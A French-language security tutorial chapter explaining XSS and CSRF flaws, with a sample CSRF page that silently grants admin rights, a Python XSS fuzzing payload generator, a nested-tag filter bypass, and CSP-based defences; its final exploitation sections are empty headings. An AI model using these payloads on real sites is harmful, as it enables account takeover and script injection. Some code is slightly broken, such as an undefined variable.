


[Retour au sommaire](./README.md)


## Failles XSS et CSRF

__Note__: j'ai choisi de traiter de ces deux failles au sein d'une même partie car
une XSS s'exploitera très souvent comme on aurait exploité une faille CSRF.

En effet, une faille XSS offre toutes les possibilité d'une CSRF à la difference que si la première est présente, il n'existe absolument aucune mesure permetant d'éviter la seconde.


### Qu'est ce qu'une faille CSRF

Les failles XSS et CSRF sont des vulnerabilité _client side_. Celà signifie qu'à la difference d'une faille qui affecterait le code serveur, une interaction 
de la part d'un utilisateur (qu'on appellera _victime_) est necessaire afin de les mener à bien.

Illustrons le fonctionnement de la failles CSRF par une attaque type.

#### Attaque CSRF type

Soient deux utilisateurs du site **target.com**: appellons les **Hacker** et **Victime**.

**Hacker** possède un compte utilisateur basique, tandis que **Victime** est administrateur. 


**Hacker** souhaite transformer son compte en compte administrateur (techniquement, on parle de **privilege escalation**)

**Victime** s'il le voulait, pourrait techniquement donner à **Hacker** le status d'administrateur par quelques simples clicks dans son interface admin.

Du point de vue des echanges entre le navigateur et le serveur, ça ressemblerait à ça:




**Hacker** sait que demander gentillement à **Victime** de lui donner le status **administrateur** a peu de chance de fonctionner. Il décide donc de faire effectuer à **Victime** cette action à son insue.


**Hacker** mets en place sur son site la page HTML suivante:
`https://hacker.com/cute_kitties_pics.html`

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8" />
        <title>Not an attack</title>
    </head>

    <body>
    <form id="myForm" action="https://target.com/admin/edit_user" method="post">
    <input type="hidden" name="id" value="1337" />
    <input type="hidden" name="admin" value="1" />


    </form>
   
<script>
document.forms["myform"].submit();
</script>

 
    </body>
</html>
```

La dernière étape consistera à faire en sorte que **victime** se rende sur cette page.

Se celà arrive, **Hacker** aura un compte **administrateur sur target.com





__Note 1__: Dans la réalité, l'attaquant esseyera dans la mesure du possible de 
rendre l'attaque la plus discrète possible. Souvent, il sera par exemple possible de
faire se dérouler l'envoie de formulaire au sein d'une Iframe. Du point de vue de la
victime, il ne se passera strictement rien de suspect

__Note 2__: On pourrait être tenté de faire le tout avec de l'ajax. dans l'immense majorité des cas
ça ne fonctionnerait pas


#### Comment éviter les failles CSRF

Virtuellement tous les frameworks recents dans tous les langages implémenteront
des protections contre ce type d'attaques: token, entêtes custom...

C'est bien, merci à eux, mais toutes les mesures du monde sont impuissantes
si le site est egalement vunerable à une attaque XSS.


### Qu'est ce qu'une faille XSS ?

Une faille XSS est la possibilité pour un hacker de faire executer 
à d'autres utilisateurs du code JavaScript arbitraire sur une application 
web.

On distingue deux types de failles XSS:
* **Reflétée**: Le code ne sera injecté que via une URL, il sera alors necessaire d'en envoyer le lien à la victime
* **Stockée**: Le code sera injecté dans une page sur laquelle la victime pourra se rendre d'elle même

__Note 1__: On peut parfois trouver un troisième type décrit: _DOM based XSS_. Je ne crois pas cette distinction
pertinente; la seule qui l'est du point de vue de l'attaquant, est s'il y aura besoin d'envoyer un lien à la victime ou non.

__Note 2__: Certaines XSS, appellées _self XSS_ ne permettent d'attaquer qu'un compte auquel l'on aurait déjà accès.
Ce n'est cependant pas dénué de risque, il serait en effet possible par exemple, d'installer un keylogger si les conditions 
s'y prettent


### Comment éviter les failles XSS 

#### Comment n'absolument pas éviter les failles XSS

##### Expression régulières

_Instant self jet de fleurs_: J'ai trouvé des 0days dans quasiment toutes
les bibliotèques censées éviter les XSS à l'aide d'expression régulières par fuzzing,
à l'aide du script suivant

```python
import random

chars = '/<>===\'\"\n \\;/  /'

attrs = [
    'src',
    'style',
    'href=',
    'javascript://',
    '=javascript://',
    '="javascript:console/log(1010)//',
    'alt',
    'alt=',
    'src',
    'src=',
    'action',
    'onclick',
    'onclick=',
    'onload',
    'load',
    'load=',
    '<script',
    'on',
    'click',
    'click=',
    'focus',
    '</script>click='
    '',
    '<link',
    '<object',
    '<sCriPt',
    '</div',
    '/*',
    '*/',
    '<!--',
    '--!>',
    '--!>',
    '--!>',
    '//',
    '<b',
    #'<p',
    '<svg',
    '</textarea',
    '<textarea',
    '</input',
    '<input',
    '<input/onfocus=',
    '<input/onfocus',
    '</div',
    '<a',
    '<button',
    '<button onclick=',
    'style',
    '<style',
    '<form',
    '<style>',
    '<style>*{z-index:999;opacity:.9;width:50vw;height:50vh;position:absolute;top:0;left:0;background-color:red;}</style>',
    '<style>*{width:50vw;height:50vh;position:absolute;top:0;left:0;background-color:red;}',
    'style="width:50vw;height:50vh;position:absolute;top:0;left:0;background-color:red;"',
    ';*{width:50vw;height:50vh;position:absolute;top:0;left:0;background-color:red;}"',
    '</noscript',
    '<input onselect=alert() value=1 ',
    ' onclick=alert() value=1 ',
    '<p ',
    '<button ',
    '<script>',
    '<script>console.log(101)</script>',
    'ick=alert()//',
    ' onfocus=alert()//',
    ' on<script>focus=alert()//',
    ' on<script>error=alert()//',
    'error=alert()//',
    '<style ',
    '<style>',
    '</style>',
    ' style=',
    '<div ',
    '<div id="a"',
    '</div ',
    'id=',
    '</span>',
    '</p>',
    '*{} * ~ {color:blue !important;margin:-100px !important; z-index:99999; opacity:.99; border:1px red solid; }',
    '*{} *{color:blue !important;margin:-100px !important; z-index:99999; opacity:.99; border:1px red solid; }',
    '*{} *{color:\'}\'*{color:blue !important;margin:-100px !important; z-index:99999; opacity:.99; border:1px red solid; }',
    '* * * {color:\'}\'*{color:blue !important;margin:-100px !important; z-index:99999; opacity:.99; border:1px red solid; }',
    '*',
    '{',
    '}',
    ' ~ ',
    ' > ',
    ' < ',
    ' : ',

    ';color:blue !important;margin:-100px !important; z-index:99999; opacity:.99; border:1px red solid; ',
    '"',
    '\'',
    '\'}\'',
    '\'</style> *\'',
    ';',
    '/',
]

payload = ""

for _ in range(1000):
    subpayload = ''
    for _ in range(random.choice([1,15])):
        subpayload += random.choice(tags)

    pos = random.randint(0, len(payload)-1)

    payload = payload[:pos] + subpayload + payload[pos:]

print(payload)
```

__**Là où le bas blesse**__

pour ne donner qu'un exemple trivial de pourquoi ce genre de méthode échoue:

```php
<?php
echo str_replace('script>','',$_GET['a']);
```

`/page.php?a=<script>alert('coucou')</script>`

affichera:
`<alert('coucou')</`

toutefois
`/page.php?a=<scscript>ript>alert('coucou')</scrscript>ipt>`
/page.php?a=<sc **script>** vript>alert('coucou')</scr **script>** ipt>`

affichera
```html
<script>alert('coucou')</script>
```


#### Comment se protéger des failles XSS

[Allez voir ici](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)

Sanitizer les inputs correctement fonctionne dans l'absolu, mais celà implique d'avoir
confiance en le fait que tous les développeurs, à tout moment, partout, auront la rigueur de le faire.

Un moyen d'éviter ces failles une bonne fois pour toute (spoiler: pas vraiment des exceptions existent quand même)
est d'avoir dans les entêtes de réponse des CSP, avec nonce-[random string] (ex: `nonce-bGpzcWRsa3NxamRsa3Fq`) et que chaque balise script ressemble à ça

<script src="..." nonce="bGpzcWRsa3NxamRsa3Fq"></script>

ainsi que d'interdir les scripts inline.


_________________________________

Passons à present à la partie interessante:

### Trouver et exploiter une faille XSS

# Demo


### Les possiblités qu'offrent une faille XSS à un attaquant

#### SSRF
#### Vol de mot de passe en clair
#### Vol de numéro de carte bleu, hijack de transaction bitcoin

